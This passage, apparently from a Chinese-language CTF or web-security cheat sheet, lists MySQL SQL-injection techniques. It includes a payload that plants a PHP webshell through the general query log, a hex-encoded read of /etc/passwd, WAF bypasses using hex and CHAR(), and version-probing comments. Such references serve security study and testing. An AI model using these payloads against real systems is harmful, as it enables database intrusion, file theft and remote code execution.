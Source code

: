     SET global general_log_file='C:/phpStudy/WWW/cmd.php';

    SELECT '<?php assert($_POST["cmd"]);?>';
    ```
- IF語句
  - IF(condition,true-part,false-part)
  - `SELECT IF (1=1,'true','false')`
- Hex
  - `SELECT X'5061756c';  =>  paul`
  - `SELECT 0x5061756c; => paul`
  - `SELECT 0x5061756c+0 => 1348564332`
  - `SELECT load_file(0x2F6574632F706173737764);`
    - /etc/passwd
  - 可繞過一些WAF
    - e.g. 用在不能使用單引號時(`'` => `\'`)
     - CHAR()也可以達到類似效果
       - `'admin'` => `CHAR(97, 100, 109, 105, 110)`
- 註解：
  - `#`
  - `--`
  - `/**/`
    - 一個`*/`可以閉合前面多個`/*`
  - `/*! 50001 select * from test */`
    - 可探測版本
    - e.g. `SELECT /*!32302 1/0, */ 1 FROM tablename`
  - `
    - MySQL <= 5.5
  - `;`
    - PDO支援多語句
- information_schema
  - mysql >= 5.0
- Stacking Query
  - 預設PHP+MySQL不支援Stacking Query
  - 但PDO可以Stacking Query
- 其它：
  - @@version
    - 同version()
  - user()
    - current_user
    - current_user()
    - current user
  - system_user()
    - database system user
  - database()
    - schema()
    - current database
  - @@basedir
    - MySQL安裝路徑
  - @@datadir
    - Location of db file
  - @@plugin_dir
  - @@hostname
  - @@version_compile_os
    - Operating System
  - @@version_compile_machine
  - @@innodb_version
  - MD5()
  - SHA1()
  - COMPRESS() / UNCOMPRESS()
  - group_concat()
    - 合併多條結果
      - e.g. `select group_concat(username) from users;` 一次返回所有使用者名
  - greatest()
    - `greatest(a, b)`返回a, b中最大的